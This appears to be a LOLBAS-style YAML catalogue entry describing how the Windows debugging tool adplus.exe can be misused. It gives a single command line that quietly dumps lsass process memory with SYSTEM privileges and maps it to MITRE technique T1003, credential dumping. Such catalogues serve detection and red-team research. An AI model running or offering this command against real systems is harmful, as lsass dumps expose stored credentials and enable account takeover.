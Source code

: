 ```yaml
---
Name: adplus.exe
Description: Debugging tool included with Windows Debugging Tools
Author: mr.d0x
Created: 1/9/2021
Commands:
  - Command: adplus.exe -hang -pn lsass.exe -o c:\users\mr.d0x\output\folder -quiet
    Description: Creates a memory dump of the lsass process
    Usecase: Create memory dump and parse it offline
    Category: Dump
    Privileges: SYSTEM
    MitreID: T1003
    MitreLink: https://attack.mitre.org/techniques/T1003/
    OperatingSystem: All Windows
Full_Path:
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\adplus.exe
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x86\adplus.exe
Code_Sample:
  - Code:
Detection:
  - IOC:
Resources:
  - Link: https://blog.thecybersecuritytutor.com/Exeuction-AWL-Bypass-Remote-exe-LOLBin/
Acknowledgement:
  - Person: mr.d0x
    Handle: "@mrd0x"
---
```

